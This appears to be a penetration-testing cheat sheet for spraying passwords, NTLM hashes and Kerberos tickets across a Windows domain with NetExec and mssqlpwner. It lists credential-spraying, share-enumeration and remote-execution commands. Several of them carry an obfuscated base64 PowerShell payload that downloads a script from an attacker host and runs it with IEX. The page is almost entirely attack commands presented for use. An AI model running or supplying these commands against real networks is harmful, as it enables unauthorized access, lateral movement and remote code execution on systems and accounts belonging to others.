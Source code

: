# Password Spraying

Password, Hash, and Tickets Spraying

### 1) Domain user creds

    nxc smb 10.10.100.0/24 -d domain.com -u user -p password
    nxc winrm 10.10.100.0/24 -d domain.com -u user -H ffffffffffffffffffffffffffffffff

### 2) Local admin creds

    nxc smb 10.10.100.0/24 -d . -u Administrator -H ffffffffffffffffffffffffffffffff

### 3) Enumerate shares

    nxc smb 10.10.100.0/24 -d domain.com -u user -p password --shares

### 4) Tickets spraying

    nxc smb 10.10.100.0/24 --use-kcache
    nxc smb machine.domain.com --use-kcache --exec-method atexec -x "powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAwAC4AMQAxAC8AaABhAHYAMABjAC0AcABzAC4AdAB4AHQAJwApACAAfAAgAEkARQBYAA=="

### 5) SSH creds spray - for domain account

    nxc ssh 10.10.100.0/24 -u user@domain.com -p password

### 6) NXC Command Execution

    nxc smb 10.10.100.15 -d domain.com -u user -H ffffffffffffffffffffffffffffffff --exec-method smbexec -x 'powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAwAC4AMQAxAC8AaABhAHYAMABjAC0AcABzAC4AdAB4AHQAJwApACAAfAAgAEkARQBYAA=='

### 7) Local admin

    nxc smb 10.10.100.15 -d . -u user -p password --exec-method atexec -x 'powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAwAC4AMQAxAC8AaABhAHYAMABjAC0AcABzAC4AdAB4AHQAJwApACAAfAAgAEkARQBYAA=='

### 8) atexec always works

    nxc smb 10.10.100.15 -d domain.com -u user -H ffffffffffffffffffffffffffffffff --exec-method atexec -x 'powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAwAC4AMQAxAC8AaABhAHYAMABjAC0AcABzAC4AdAB4AHQAJwApACAAfAAgAEkARQBYAA=='

### 9) DB Spray

    mssqlpwner domain.com/user:password@10.10.100.15 -windows-auth enumerate
    mssqlpwner ./Administrator@10.10.100.15 -hashes ':ffffffffffffffffffffffffffffffff' -windows-auth enumerate
    mssqlpwner domain.com/machineaccount\$@10.10.100.15 -hashes ':ffffffffffffffffffffffffffffffff' -windows-auth interactive enumerate
